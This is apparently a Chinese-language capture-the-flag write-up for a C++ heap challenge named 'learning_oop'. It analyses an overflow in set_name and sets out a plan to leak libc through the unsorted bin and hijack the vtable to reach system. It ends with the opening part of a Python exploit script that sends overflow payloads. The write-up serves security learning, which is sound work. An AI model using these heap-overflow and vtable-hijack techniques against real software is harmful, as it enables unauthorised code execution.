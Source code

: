## learning_oop

### ida分析

![图3](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20250901194344121.png)


首先漏洞点 ,  很明显是`set_name` 函数中的溢出漏洞 , 可以往下溢出覆盖下面的堆块. 然后堆块申请都是固定大小`0x120`

可以看到这是一个`c++`的程序 ,  他的堆块都是 作为对象申请的. 这里应该是 用 `Animal` 这样一个类 , 然后 `Dog`,`Cat`,`Horse`,`Parrot` 类继承了`Animal`,并对其中的某些方法重写了.

![image.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20250901203517642.png)

在初始化一个动物的时候 , 在`fd` 的位置 写了一个虚表的地址 ,后续的函数调用都是靠这个地址去寻找和调用函数.

年龄,饥饿值,体力,其实是堆块最后`0x10`字节保存的数据. 同时 ,  意识到 ,  可以溢出修改这个部分 , 去控制 动物的 这些信息.

![](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20250901204229246.png)

这里 可以通过控制 `fd` 也就是劫持虚表 ,  来完成调用自己想要的函数.

### 思路分析

题目环境是2.39的libc . (没有版本讲堆题,都是在耍流氓)

1. 首先要泄露`libc` , 然后劫持虚表 , 这里应该是很容易想到的. 那么如何泄露`libc`呢? 肯定是通过`unsorted bin` 了. 然后让堆块进入`unsorted bin`呢? 如果填满一个`tcache bins` , 再 `free` 一个`0x120` 的堆块, 看样子可行,但可以没有`uaf` 漏洞,这样利用会很困难. 所以 , 通过溢出修改堆块 的`size` 造一个0x481 的堆块 ,  造一个重叠. 因为这个大小的堆块超过了`tcahce bins`的大小会直接进入`unsorted bin`.
2. 这个时候 再申请一个堆块 , `arena`信息就会写入到下一个堆块的`name`的位置, 如果此时下一个堆块恰好`die` ,就会触发`get_name` 把信息泄露出来.
3. 然后劫持`vtable` ,我们通过在堆上布置一个虚表,在创建成功后,程序会返回堆的地址. 然后只要有合适的`gadgets`, 就可以调用`system`. 这里肯定需要的是控制`rdi`, 同时需要`call`

### exp

```python
from esy import *
context.log_level='debug'
#context.terminal=["tmux","splitw","-h","-l","66%"]
io = process("./learning_oop")
def menu(op):
    io.sendlineafter("> ",str(op))

def add(species,name):
    menu(1)
    io.sendlineafter("4=Horse): ",str(species))
    io.sendlineafter("Enter name: \n",name)

def play(idx):
    menu(2)
    io.sendlineafter("Which pet? \n",str(idx))

def feed(idx):
    menu(3)
    io.sendlineafter("Which pet? \n",str(idx))

def reset(idx):
    menu(4)
    io.sendlineafter("Which pet? \n",str(idx))

add(1,b"a"*0x100+p32(6)+p32(6))
add(3,b"a"*0x100+p32(5)+p32(5))

add(2,b"a"*0x100+p32(7)+p32(7))
add(2,b"a"*0x100+p32(6)+p32(6))
```